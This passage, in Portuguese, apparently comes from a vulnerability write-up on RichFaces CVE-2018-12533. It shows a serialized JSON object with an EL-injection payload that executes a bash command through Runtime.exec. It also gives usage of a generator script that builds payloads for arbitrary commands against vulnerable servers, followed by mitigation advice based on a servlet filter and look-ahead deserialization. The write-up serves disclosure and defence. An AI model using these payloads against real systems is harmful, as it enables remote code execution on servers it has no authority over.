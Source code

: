 ```json
          "expr (java.lang.String)": "#{facesContext.getExternalContext().getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"js\").eval(\"java.lang.Runtime.getRuntime().exec(['bash','-c','touch /tmp/richfaces-vulnerability-cve-2018-12533-rf-14310-20250102-110458'])\")}",
          "fnMapper (javax.el.FunctionMapper)": null,
          "varMapper (javax.el.VariableMapper)": null,
          "paramTypes ([Ljava.lang.Class;)": [
            "java.awt.Graphics2D",
            "java.lang.Object"
          ]
        }
      }
    }
  },
  "cacheable (boolean)": false,
  "_bgColor (int)": 0
}
Arquivo .class gravado em: org.richfaces.renderkit.html.Paint2DResource$ImageData.class
```

⚠️ O ponto principal é o atributo `_paint.savedState.m.orig.expr`, onde está o código malicioso, que nesse exemplo é apenas um código inofensivo que cria um arquivo no disco: `touch /tmp/richfaces-vulnerability-cve-2018-12533-rf-14310-20250102-110458`

## Gerando um payload para testar a vulnerabilidade

```bash
chmod +x Generator_Paint2DResourceImageData.java

./Generator_Paint2DResourceImageData.java
# ou
./Generator_Paint2DResourceImageData.java <um comando aqui>
./Generator_Paint2DResourceImageData.java touch /tmp/alguem-esteve-aqui
```

O output vai exibir os comandos no ponto de você executar contra um servidor vulnerável. Ajuste apenas a URL.

## Como mitigar?

### Se você realmente precisa desse endpoint

Uma opção menos simples e mais performática, é modificar o código do RichFaces para fazer algum tratamento. Mais abaixo tem a stack relevante.

Outra opção mais simples que a anterior, é criar um filtro (`javax.servlet.Filter`), que vai agir apenas no path em questão, deserializando o Base64 presente no path e fazendo a devida verificação para descobrir se o request pode continuar ou se tem que ser rejeitado. **É importante frisar** que a deserialização tem que ocorrer por meio da classe `LookAheadObjectInputStream`, como é feito em `org.ajax4jsf.resource.ResourceBuilderImpl.getResourceDataForKey(String)`, para tentar evitar ao máximo [problemas de segurança durante a deserialização](https://www.baeldung.com/java-deserialization-vulnerabilities), como por exemplo execução de código malicioso.
